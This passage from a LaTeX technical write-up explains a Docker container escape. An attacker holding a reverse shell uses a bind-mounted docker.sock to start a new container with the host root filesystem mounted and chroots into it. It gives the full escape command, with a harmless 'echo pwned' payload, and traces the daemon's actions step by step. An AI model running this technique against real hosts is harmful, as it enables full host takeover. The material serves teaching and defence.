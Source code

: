 This step is the moment of escape. The attacker, operating inside the compromised container over the reverse shell, instructs the host Docker daemon to spawn a new container with the host root filesystem mounted inside it.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{Docker socket abuse: attacker's container instructs host daemon to mount host root into a new container}
\end{figure}

The escape command is:

\begin{lstlisting}[language=bash]
docker -H unix:///var/run/docker.sock run -d \
  -v /:/hostfs --rm alpine \
  chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'
\end{lstlisting}

Each component is significant. \texttt{-H unix:///var/run/docker.sock} directs the CLI to communicate with the host daemon via the bind-mounted socket. \texttt{run -d} creates and starts a new container in detached mode. \texttt{-v /:/hostfs} bind-mounts the host root filesystem into the new container at \texttt{/hostfs} -- critically, this \texttt{/} refers to the \textit{host's} root, because it is the daemon (running on the host) that resolves the source path, not the attacker's container. \texttt{--rm} removes the new container automatically after the command completes. \texttt{alpine} is the base image -- minimal and likely already cached; if not, the daemon pulls it automatically. \texttt{chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'} changes the process root to the host filesystem and executes the payload, writing the file to \texttt{/tmp/escaped.txt} on the actual host.

At the kernel level, the sequence on the host side is:

\begin{lstlisting}
1. HTTP POST /containers/create received by dockerd (UID 0 on host)
2. dockerd -> containerd -> runc
3. runc: mount(MS_BIND, "/", container_rootfs + "/hostfs")
          (host root bound into new container's mount namespace)
4. New container process: chroot /hostfs
                          execve sh -c 'echo pwned > /tmp/escaped.txt'
5. File written to /tmp/escaped.txt in host's mount namespace
\end{lstlisting}

The attacker's original container never changes its namespace. It never calls \texttt{setns()} or \texttt{unshare()}. The escape is entirely daemon-mediated: the attacker sends an API instruction, and the daemon -- running in host namespaces with full capabilities -- performs the privileged operation on the attacker's behalf.

